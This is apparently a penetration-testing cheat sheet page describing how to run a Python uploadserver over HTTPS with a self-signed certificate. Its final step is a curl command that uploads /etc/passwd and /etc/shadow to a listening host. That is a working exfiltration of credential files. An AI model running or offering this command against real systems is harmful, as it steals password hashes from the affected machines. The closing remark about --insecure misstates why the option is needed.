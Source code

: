 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Linux Python Upload Server

**uploadserver** is an extended module of the **Python HTTP.Server module**, which includes a file upload page.

**Install the uploadserver module:**

```shell
clue@machine[/]$ sudo python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

**Create a self-signed certificate:**

```shell
clue@machine[/]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

**Note:** The webserver should not host the certificate, create a new directory to host the file for the webserver.

**Start the webserver:**

```shell
clue@machine[/]$ mkdir https && cd https
```

```shell
clue@machine[/]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

**Upload multiple files:**

```shell
clue@machine[/]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

**Note:** The `--insecure` option was used here because the self-signed certificate is trusted.
